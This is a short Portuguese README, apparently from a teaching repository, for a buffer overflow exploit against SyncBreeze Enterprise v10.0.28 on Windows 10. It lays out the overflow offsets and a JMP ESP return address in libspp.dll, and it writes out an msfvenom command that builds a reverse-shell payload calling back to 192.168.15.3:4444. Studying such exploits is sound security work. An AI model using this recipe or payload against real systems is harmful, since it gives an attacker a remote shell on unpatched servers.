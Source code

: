 # BufferOverflow SyncBreeze Enterprise v10.0.28

Exploit didático para explorar o Sync Breeze v10.0.28 rodando no Windows 10 Enterprise (x64) e ganhar reverse shell

## SyncBreeze Enterprise v10.0.28
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.0.28.exe

## Resumo:

- 780 bytes para sobrescrever o registrador EAX.
- 4 bytes para sobrescrever o registrador EIP (escrito em little endian) com um endereço de retorno JMP ESP da DLL libspp.dll do próprio software, que não possui proteção ASLR.
- 16 No-Operations para garantir a perfeita execução do payload.
- 351 bytes de payload para realizar a conexão reversa com 192.168.15.3:4444.

## Gerando o mesmo payload no MSFVENOM
```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.15.3 lport=4444 exitfunc=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c
```
